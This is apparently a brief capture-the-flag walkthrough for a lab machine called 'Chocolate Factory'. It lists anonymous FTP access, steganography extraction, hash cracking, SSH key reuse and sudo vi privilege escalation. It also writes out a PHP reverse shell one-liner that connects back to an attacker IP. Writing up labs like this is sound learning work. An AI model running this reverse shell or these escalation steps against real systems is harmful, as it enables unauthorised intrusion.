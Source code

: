 # Chocolate Factory
```
EXPORT IP = 10.10.241.129
```

#### SCAN
 - nmap/initial

#### Reconissance
 - `Ftp/21` : `Allow Anonymous Login`
 - get gum_room.jpg
   - `steghide extract -sf gum_room.jpg` >> b64.txt
   - `cat b64.txt | base64 -d` >> passwd

#### Crack the Hash
 - `sudo /usr/bin/ssh2john.py passwd --wordlist={ROCK_YOU_FILE}`

 
#### Reverse Shell Payload
 -  php -r '$sock=fsockopen("MY_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

#### USER Escalate
 - `/home/charlie/teleport`
 - `chmod 600 teleport`
 - `ssh -i teleport charlie@{IP}`

#### Root Privilige Escalate
 - `sudo -l`
 - `sudo /usr/bin/vi`
 - `python root.py` << "-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY="